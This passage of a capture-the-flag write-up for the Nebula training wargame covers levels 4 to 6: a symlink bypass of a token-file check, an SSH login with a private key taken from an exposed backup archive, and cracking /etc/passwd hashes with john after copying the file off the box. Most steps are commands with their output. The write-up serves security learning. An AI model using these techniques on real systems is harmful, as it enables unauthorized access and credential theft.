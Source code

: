 	  write(1, buf, rc);
	}

To bypass it, we simple create a symbolic link to the token file. 
The `read()` function apparently resolves symbolic links: 

	:::bash
	level04@nebula:/home/flag04$ ln -s /home/flag04/token /tmp/bla
	level04@nebula:/home/flag04$ ./flag04 /tmp/bla 
	06508b5e-8909-4f38-b630-fdb148a848a2
	level04@nebula:/home/flag04$ su flag04
	Password: 
	sh-4.2$ getflag
	You have successfully executed getflag on a target account


## Level 5 - Reading sensitive backup files to exploit accounts

When you change to the directory of `flag05` you can immediately see a suspicious directory named
`.backup`. There you'll find a `tar.gz` file. When you decompress and untar it, you'll see that
it contains the credentials for a ssh connection. After some tries, you'll see that you may
login to the flag05 account with the private key (contained in `.ssh/id_rsa`).


	:::bash
	# This command creates a temporary directory and unpacks the .tgz file there. Then it logs in with the
	# id_rsa key which was in the compressed tar archive.
	TEMPDIR=$(mktemp -d) && tar -xzvf .backup/backup-19072011.tgz -C $TEMPDIR && ssh -i $TEMPDIR/.ssh/id_rsa flag05@localhost 'getflag'


## Level 6 - Cracking crypt(3)

This one is fairly easy. As the level description states:

> The flag06 account credentials came from a legacy unix system. 

This just means that the hashed passwords are still stored in `/etc/passwd` and that they are hashed with 
`crypt(3)`.

So I installed a password cracking program named *john* and downloaded the `/etc/passwd` file from nebula to my
host machine. 

	:::bash
	scp level06@nebula:/etc/passwd passwd 

Then I called john with the password file which yielded the password immediately:

	:::bash
	nikolai@nikolai:~/Projects/private/wargames/exploit-exercises/nebula$ john passwd 
	Loaded 1 password hash (descrypt, traditional crypt(3) [DES 128/128 SSE2-16])
	Press 'q' or Ctrl-C to abort, almost any other key for status
	hello            (flag06)
	1g 0:00:00:00 100% 2/3 11.11g/s 8366p/s 8366c/s 8366C/s 123456..marley
	Use the "--show" option to display all of the cracked passwords reliably
	Session completed
